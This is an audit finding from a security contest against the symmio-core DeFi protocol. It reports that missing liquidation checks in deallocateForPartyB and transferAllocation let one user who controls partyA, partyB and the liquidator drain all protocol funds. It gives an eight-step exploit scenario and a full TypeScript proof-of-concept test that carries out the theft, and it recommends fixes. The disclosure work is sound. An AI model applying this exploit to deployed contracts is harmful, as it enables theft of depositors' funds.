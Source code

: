 panprog

high

# Some actions are allowed on partyB when corresponding partyA is liquidated allowing to steal all protocol funds

## Summary

`deallocateForPartyB` function doesn't check if partyA is liquidated, allowing partyB to deallocate funds when partyA liquidation process is not finished:

https://github.com/sherlock-audit/2023-06-symmetrical/blob/main/symmio-core/contracts/facets/Account/AccountFacet.sol#L84-L91

`transferAllocation` function doesn't check if partyA is liquidated either:

https://github.com/sherlock-audit/2023-06-symmetrical/blob/main/symmio-core/contracts/facets/Account/AccountFacetImpl.sol#L71-L106

Either of these functions allows to deallocate (or transfer, then deallocate) funds for partyB when partyA liquidation is not yet finished. Coupled with the ability for liquidator to choose which partyA positions to liquidate, this allows to steal all protocol funds.

## Vulnerability Detail

Liquidating partyA is a multi-step process. First, `liquidatePartyA` is called to mark the start of liquidation process. Then, liquidator has to set symbol prices, liquidate pending quotes and finally call `liquidatePositionsPartyA` (possibly multiple times) with liquidated positions. Each position, which is liquidated in the `liquidatePositionsPartyA` function increases `allocatedBalance` of partyB if the position is in a loss for partyA (profit for partyB).

The bug reported here allows for partyB to deallocate this increased `allocatedBalance` while partyA liquidation is still in process. The scenario to exploit this bug is as following:

1. User has to control partyA, partyB and liquidator.
2. Open 2 large opposite positions between partyA and partyB such that one of them is in a high loss and the other in the same/similar profit (easy to do via  openPrice which is far away from current market price, since both partyA and partyB are controlled by the same user).
3. Make partyA liquidatable (many ways to do this: for example, opposite positions can have slightly different size with minimal locked balances, so that when the price moves, this disparency can make partyA liquidatable)
4. Call `liquidatePartyA` and `setSymbolsPrice` (there is no bad debt, because 1 position is in a big loss, the other position in a big profit, but their sum is in a small loss, which is covered by allocatd balance)
5. Sign `singleUpnlSig` for partyB at this time (partyB is in a small profit)
6. User-controlled liquidator calls `liquidatePositionsPartyA` with id of only the position which is in a loss for partyA, profit for partyB. This call increases partyB allocated balance by a very high profit of the position. Moreover, this action doesn't change partyB's nonce, so previous partyB signature is still valid.
7. At this time partyB has large inflated allocatedBalance and the same big loss, however signature for when partyB was in a small profit is still valid, because party B nonce is the same (position liquidation didn't change it). Use that older signature to sign `deallocateForPartyB`, deallocating inflated balance (which can easily be higher than total protocol deposited funds).
8. Withdraw deallocated balance for partyB. At this point all protocol funds are stolen.

The other instances where there is no check if party is liquidated:

1. partyA `requestToClosePosition` (it checks if quote is liquidated, but doesn't check for neither partyA nor partyB liquidation status)
2. partyB `fillCloseRequest` (same as `requestToClosePosition`)
3. partyA `deallocate` checks for partyA liquidation status, but can't check for partyB liquidation status, because there can be multiple partyB's. This is reported as a separate bug, because the core problem (muon app signing incorrect upnl) and solution for that one is different.

## Impact

All protocol funds can be stolen if a user can control partyA, partyB and liquidator. Since partyB and liquidator roles are supposed to be easy to get, this means that most users are able to easily steal all protocol funds.

## Code Snippet

Add this to any test, for example to `ClosePosition.behavior.ts`.

```ts
import { getDummyPriceSig, getDummySingleUpnlAndPriceSig, getDummyQuotesPriceSig, getDummySingleUpnlSig } from "./utils/SignatureUtils";

it("Steal all funds via inflated PartyB allocated balance off picky partyA position liquidation", async function () {
  const context: RunContext = this.context;

  this.protocol_allocated = decimal(1000);

  this.user_allocated = decimal(590);
  this.hedger_allocated = decimal(420);

  // some unsuspecting user deposits 1000 into protocol (but doesn't allocate it)
  this.user2 = new User(this.context, this.context.signers.user);
  await this.user2.setup();
  await this.user2.setBalances(this.protocol_allocated, this.protocol_allocated, 0);

  // exploiter user controls partyA, partyB and liquidator
  this.user = new User(this.context, this.context.signers.user);
  await this.user.setup();
  await this.user.setBalances(this.user_allocated, this.user_allocated, this.user_allocated);

  this.hedger = new Hedger(this.context, this.context.signers.hedger);
  await this.hedger.setup();
  await this.hedger.setBalances(this.hedger_allocated, this.hedger_allocated);

  this.liquidator = new User(this.context, this.context.signers.liquidator);
  await this.liquidator.setup();

  // open 2 opposite direction positions with user-controlled hedger to exploit them later
  // (positions with slightly different sizes so that at some point the hedger can be liquidated)
  await this.user.sendQuote(limitQuoteRequestBuilder()
    .quantity(decimal(11000))
    .price(decimal(1))
    .cva(decimal(100)).lf(decimal(50)).mm(decimal(40))
    .build()
  );
  await this.hedger.lockQuote(1, 0, decimal(2, 16));
  await this.hedger.openPosition(1, limitOpenRequestBuilder().filledAmount(decimal(11000)).openPrice(decimal(1)).price(decimal(1)).build());

  await this.user.sendQuote(limitQuoteRequestBuilder()
    .positionType(PositionType.SHORT)
    .quantity(decimal(10000))
    .price(decimal(1))
    .cva(decimal(100)).lf(decimal(50)).mm(decimal(40))
    .build()
  );
  await this.hedger.lockQuote(2, 0, decimal(2, 16));
  await this.hedger.openPosition(2, limitOpenRequestBuilder().filledAmount(decimal(10000)).openPrice(decimal(1)).price(decimal(1)).build());

  var info = await this.user.getBalanceInfo();
  console.log("partyA allocated: " + info.allocatedBalances / 1e18 + " locked: " + info.totalLocked/1e18 + " pendingLocked: " + info.totalPendingLocked / 1e18);
  var info = await this.hedger.getBalanceInfo(this.user.getAddress());
  console.log("partyB allocated: " + info.allocatedBalances / 1e18 + " locked: " + info.totalLocked/1e18 + " pendingLocked: " + info.totalPendingLocked / 1e18);

  // price goes to 0.9, so partyA is in a loss of -100 and becomes liquidatable
  // user now exploits the bug by liquidating partyA
  await context.liquidationFacet.connect(this.liquidator.signer).liquidatePartyA(
    this.user.signer.address,
    await getDummySingleUpnlSig(decimal(-100)),
  );

  await context.liquidationFacet.connect(this.liquidator.signer).setSymbolsPrice(
      this.user.signer.address,
      await getDummyPriceSig([1], [decimal(9, 17)], decimal(-100), decimal(1100)),
    );

  // get partyB upnl signature before partyA position is liquidated (at which time partyB has upnl of +100)
  var previousSig = await getDummySingleUpnlSig(decimal(100));

  // liquidate only quote 1 (temporarily inflating balance of controlled partyB)
  await context.liquidationFacet.connect(this.liquidator.signer).liquidatePositionsPartyA(
    this.user.signer.address,
    [1]
  );

  var info = await this.hedger.getBalanceInfo(this.user.getAddress());
  console.log("after liquidation of partyA: partyB allocated: " + info.allocatedBalances / 1e18 + " locked: " + info.totalLocked/1e18 + " pendingLocked: " + info.totalPendingLocked / 1e18);

  // deallocate partyB with previous signature (before partyA's position is liquidated)
  // (current partyB upnl is -1100)
  await context.accountFacet.connect(this.hedger.signer).deallocateForPartyB(decimal(1530), this.user.getAddress(), previousSig);
  // alternatively use transferAllocation
  //await context.accountFacet.connect(this.hedger.signer).transferAllocation(decimal(1530), this.user.getAddress(), this.user2.getAddress(), previousSig);
  //await context.accountFacet.connect(this.hedger.signer).deallocateForPartyB(decimal(1530), this.user2.getAddress(), previousSig);

  var balance = await context.viewFacet.balanceOf(this.hedger.getAddress());
  console.log("PartyB balance to withdraw: " + balance/1e18);
  var info = await this.hedger.getBalanceInfo(this.user.getAddress());
  console.log("partyB allocated: " + info.allocatedBalances / 1e18 + " locked: " + info.totalLocked/1e18 + " pendingLocked: " + info.totalPendingLocked / 1e18);
  await time.increase(300);
  await context.accountFacet.connect(this.hedger.signer).withdraw(balance);

  var balance = await context.collateral.balanceOf(this.hedger.getAddress());
  console.log("Withdrawn partyB balance: " + balance/1e18);
  var balance = await context.collateral.balanceOf(context.diamond);
  console.log("Protocol balance: " + balance/1e18 + " (less than unsuspected user deposited)");

  // try to withdraw unsuspected user's balance
  await expect(context.accountFacet.connect(this.user2.signer).withdraw(this.protocol_allocated))
    .to.be.revertedWith("ERC20: transfer amount exceeds balance");

  console.log("User who only deposited 1000 is unable to withdraw his deposit because partyB has stolen his funds");

});
```

## Tool used

Manual Review

## Recommendation

Add require's (or modifiers) to check that neither partyA nor partyB of the quote are liquidated in the following functions:
1. `deallocateForPartyB`
2. `transferAllocation`
3. `requestToClosePosition`
4. `fillCloseRequest`